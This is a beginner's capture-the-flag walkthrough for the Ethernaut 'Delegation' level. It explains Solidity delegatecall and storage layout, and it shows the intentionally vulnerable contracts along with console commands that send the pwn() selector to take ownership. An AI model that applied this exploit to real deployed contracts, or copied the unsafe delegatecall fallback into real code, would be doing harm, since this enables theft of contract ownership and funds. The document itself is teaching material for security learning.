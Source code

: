 ```yaml
---
title: "Ethernaut - Walkthrough for Noobs - 6 - Delegation"
datePublished: Fri Mar 17 2023 15:37:03 GMT+0000 (Coordinated Universal Time)
cuid: clfcpe3mr000709jldcvt230q
slug: ethernaut-walkthrough-for-noobs-6-delegation
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1679052171155/903038d4-29d9-4546-96d0-c6a1ad779aad.jpeg
tags: ethereum, smart-contracts, 2articles1week, ethernaut, smart-contract-audit-services

---
```


This challenge is also fairly simple and introduces the concept of `delegatecall`. Per usual, I would give you all the tools to solve this on your own and then provide a solution.

> The goal of this level is for you to claim ownership of the instance you are given.

### Background

Let's see what a `delegate call` is according to solidity docs:

> **delegatecall** is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and `msg.sender` and `msg.value` do not change their values.

in a less jargonish way, a `delegatecall` basically says, that I am a contract and I am delegating you to do anything with my storage.

For Example:

In a `call` function: A calls on B, ==&gt; context and storage of B is used.

In a `delegatecall` function: A delegates call on B, ==&gt; context and storage of A is used.

![I don't own the images](https://cdn.hashnode.com/res/hashnode/image/upload/v1679055080644/4f907f56-8f01-41ca-8a33-be36d0fba06f.jpeg align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1679055095835/88b37019-191f-4d3f-b224-68e034ddf34f.jpeg align="center")

Note: "While using `delegatecall` , understand that it preserves context and only use it when the storage layout is the same for the contract calling `delegatecall` and the contract getting called"

Here is what storage layout means:

```solidity
contract Example{
    uint a; //slot 0
    uint b; //slot 1
```

If the storage layout is not the same the data will go into a different variable.

### Code of Importance & Problems

Observe that we have two different contracts here. The explanation for both is in the comments.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner; //sets state variable owner

  constructor(address _owner) { //initializes owner
    owner = _owner;
  }

  function pwn() public { 
    owner = msg.sender; //this can make us the owner..keep in mind. 
  }
}
```

```solidity
contract Delegation {

  address public owner;
  Delegate delegate; // a reference to the Delegate contract above

  constructor(address _delegateAddress) { //takes address as input 
    delegate = Delegate(_delegateAddress); //initialises delegate state variable
    owner = msg.sender; //sender is initialised as owner 
  }

  fallback() external { //fallback function (refer 1st challenge)
    (bool result,) = address(delegate).delegatecall(msg.data);//stores the success of delegatecall in result.
    if (result) { //if true creates a 'this' instance.
      this; //keeps going with the contract code. 
    }
  }
}
```

Now, how to tackle the code, let's backtrace our thinking.

1. Now, since `delegatecall` is used, the context (`msg.sender`, `msg.value`) of the "Delegation" contract will be used, to invoke the `pwn()` function in the "delegate" contract.
    
2. Also notice that, the storage slot for `owner` is the same in both contracts.
    
3. **In short, this will behave as if the** `pwn()` **function is in the "Delegation" contract.**
    

Here is briefly the timeline of exploit:

* Trigger the fallback function whilst invoking the `pwn()` function using msg.data.
    
* Triggers the `pwn()` function in the delegate contract.
    
* but the storage of the Delegation contract is used.
    
* Updates `owner = msg.sender(us)` according to the `pwn()` function in the delegation contract.
    

### Solution

* Create a new level instance and open up the console.
    
* ```solidity
      var attack = web3.utils.keccak256("pwn()") //saves hashed pwn() in attack.
      //we require the hashed version of pwn() to pass it as msg.data.
    ```
    
* ```solidity
      contract.sendTransaction({data: attack}) //sending a transaction with msg.data as attack which will trigger the pwn() function. 
      //Since, there is no function to accept the transaction, it will trigger the fallback function which will delegate it and....Ah Shit, here we go again.
    ```
    
* ```solidity
      await contract.owner() //check whether you are the owner.
    ```
    
* Submit Instance.
    

Delegation✅